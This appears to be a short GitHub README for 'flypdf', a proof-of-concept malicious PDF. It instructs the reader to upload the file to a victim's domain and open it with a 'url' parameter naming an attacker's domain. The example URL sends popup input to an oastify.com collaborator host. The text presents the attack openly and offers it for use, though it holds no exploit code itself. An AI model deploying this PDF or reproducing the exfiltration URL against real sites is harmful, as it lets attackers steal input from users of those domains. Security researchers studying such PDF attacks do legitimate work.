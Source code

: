 # flypdf

Just upload the pdf file to victim's domain

The open this file in victim's domain with `url` parameter is attacker's domain.  (this file works fine in chrome)

Ex: http://www.flyseccorp.com/files/chrome_popup_send_input_by_lamscun.pdf?url=http://222finzjhx4uw5v59kirj6qcm3svgmcpetahz.oastify.com

![poc_pdf_1](https://github.com/FlySecCorp/flypdf/assets/126087206/1a4bf497-b3c2-4e01-81d2-eea27ac86573)

